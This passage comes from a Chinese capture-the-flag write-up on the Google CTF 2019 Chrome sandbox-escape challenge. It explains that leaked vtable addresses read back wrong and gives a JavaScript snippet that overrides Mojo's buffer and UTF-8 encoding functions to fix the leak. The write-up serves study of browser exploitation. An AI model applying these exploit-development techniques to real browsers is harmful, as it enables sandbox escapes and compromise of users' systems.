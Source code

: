 ![poc](https://raw.githubusercontent.com/f0cus77/f0cus77.github.io/master/images/2022-12-31-沙箱逃逸之google-ctf-2019-Monochromatic-writeup/poc.png)

要提一点的是在泄露虚表的时候，可能是因为`mojo`的编码问题，直接读出来的地址不对，需要对数据进行编码，加上下面的代码就可以了，原因我现在还搞不懂，先放着。

```js
mojo.internal.Buffer.prototype.setUint64 = function(offset, value) {
    value = BigInt(value);
    let multipliter = 0x100000000n;
    var hi = Number(value / multipliter);
    var low = Number(value % multipliter);
    this.dataView.setInt32(offset, low, true);
    this.dataView.setInt32(offset + 4, hi, true);
    return;
};

mojo.internal.encodeUtf8String = function(str, outputBuffer) {
    const utf8Buffer = str.split('').map(char => char.charCodeAt(0));
    if (outputBuffer.length < utf8Buffer.length)
        throw new Error("Buffer too small for encodeUtf8String");
    outputBuffer.set(utf8Buffer);
    return utf8Buffer.length;
}

mojo.internal.decodeUtf8String = function(buffer) {
    return Array.from(new Uint8Array(buffer.buffer, buffer.byteOffset,
        buffer.byteLength)).
        map(code => String.fromCharCode(code)).join('');
}
```

## 总结
